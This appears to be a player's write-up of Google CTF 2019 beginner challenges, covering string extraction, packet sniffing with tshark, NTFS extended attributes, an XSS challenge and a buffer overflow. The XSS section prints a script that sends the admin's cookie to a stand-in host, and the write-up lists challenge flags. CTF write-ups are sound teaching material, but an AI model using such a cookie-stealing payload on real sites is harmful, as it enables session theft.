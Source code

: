 ## Google CTF 2019

Google CTF 2019: Google runs a CTF competition in two rounds: an online qualification round and an onsite final round. The top 10 teams from the qualification round will be invited to the finals to compete onsite for a prize pool of more than USD $31,337. In addition to the grand prizes, some of the best and creative write-ups that we receive during the qualifying round will be rewarded as well. We want to give you an opportunity to share with the world the clever ways you solve challenges. You can read more about the Google CTF here.

URL: https://capturetheflag.withgoogle.com/

![](img/beginnerquest.png)

# Beginner's Quests - Enter Space-Time Coordinates
```
Ok well done. The console is on. It's asking for coordinates. Beating heavily on the console yields little results, but the only time anything changes on your display is when you put in numbers.. So what numbers are you going to go for? You see the starship's logs, but is there a manual? Or should you just keep beating the console?
```
We are provided with a text file and a binary. I had no idea, i didn't run the binary but instead get all the strings inside it:

> strings rand2

and i got:

> CTF{welcome_to_googlectf}

![](img/spacetime.png)

# Beginner's Quests - Arrival & Reconnaissance

```
Placing your ship in range of the Osmiums, you begin to receive signals. Hoping that you are not detected, because it's too late now, you figure that it may be worth finding out what these signals mean and what information might be "borrowed" from them. Can you hear me Captain Tim? Floating in your tin can there? Your tin can has a wire to ground control?

Find something to do that isn't staring at the Blue Planet.
```
![](img/arrival.png)

We are provided with an attachment.

**Recon:** 

Download an atachment and open it as PDF, we can see the `osmium` word written on the spaceship. So it's will be something useful later. Now try to run the program, it will ask for the satellite name, let's try `osmium`.

```
Enter the name of the satellite to connect to or 'exit' to quit
osmium
Establishing secure connection to osmium
 satellite...
Welcome. Enter (a) to display config data, (b) to erase all data or (c) to disconnect
a
Username: brewtoot password: ********************       166.00 IS-19 2019/05/09 00:00:00        Swath 640km     Revisit capacity twice daily, anywhere Resolution panchromatic: 30cm multispectral: 1.2m        Daily acquisition capacity: 220,000km²  Remaining config data written to: https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E
```

Open the Google Doc above we get the MD5:

`VXNlcm5hbWU6IHdpcmVzaGFyay1yb2NrcwpQYXNzd29yZDogc3RhcnQtc25pZmZpbmchCg==`

Decode it and we get:

```
root@kali xxxxxxxx#: echo TG9naW5zIGZvciBob21lIGFuZCB3b3JrIGNvbXB1dGVyOgpVc2VybmFtZTogd2Vib3J0dG8KUGFzc3dvcmQ6IHRvdGFsbHktbm90LWEtZmxhZy1rZWVwLXNuaWZmaW5nCg== | base64 -d
Logins for home and work computer:
Username: webortto
Password: totally-not-a-flag-keep-sniffing
```

So yea let's sniff it with wireshark

![](img/wireshark.png)

We can get the flag from the traffic: `CTF{4efcc72090af28fd33a2118985541f92e793477f}`

**Tricks:**
 
 I learn this commands from another user's solution which is very useful with wireshark:

```console
root@kali:xxxxx# tshark -nr osmium.pcapng  -Y 'frame contains "password"'
   16 28.632225193 34.76.101.29 → 10.0.2.15    TCP 417 1337 → 52616 [PSH, ACK] Seq=88 Ack=3 Win=65535 Len=363 1337 52616
root@kali:xxxxx# tshark -nr osmium.pcapng  -Y 'frame contains "password"' -T fields -e data.text -o data.show_as_text:TRUE
Username: brewtoot password: CTF{4efcc72090af28fd33a2118985541f92e793477f}      166.00 IS-19 2019/05/09 00:00:00       Swath 640km      Revisit capacity twice daily, anywhere Resolution panchromatic: 30cm multispectral: 1.2m        Daily acquisition capacity: 220,000km Remaining config data written to: https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E
```

After this challenge is solved, you need to choose either to continue with "Home" or "Work" computer to continue.

# Beginner's Quests - Home Computer

![](img/homecomputer.png)

We are provided with an NTFS file.

Let's mount it using this command:

`sudo mount family.ntfs /mnt`

The folder will be accessible from `/dev/mnt`. Browsing through the folders we find a `credentials.txt` with the text:

`I keep pictures of my credentials in extended attributes.`

Using the `getfattr` will show the extended attrib of the file. According to this wiki for the technique: https://en.wikipedia.org/wiki/Extended_file_attributes

`getfattr --only-values credentials.txt > text.png`

![](img/flag.png)

# Beginner's Quests - Government Agriculture Network 

We are provided with a form, an admin and when testing out the form field we can see that "the admin will review your submission.". It's some kind of XSS. Let's just setup a webhook to get the cookie form admin:

```
<script>
    location.href = 'https://mysite.com/?cookie='+document.cookie;
</script>
```

Boom, easily get the cookie and flag:

```
cookie: 
    flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; 
    session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV
```

# Beginner's Quests - Stop Gan PWN

We are given a file, and by running it we can guess it can be overflowed. (i'm lazy to type out the answer)

So here is what we need to do, pipe it with the netcat:

`{ echo "run"; python -c "print 'a'*600";} | nc buffer-overflow.ctfcompetition.com 1337`

We got the flag: `CTF{Why_does_cauliflower_threaten_us}`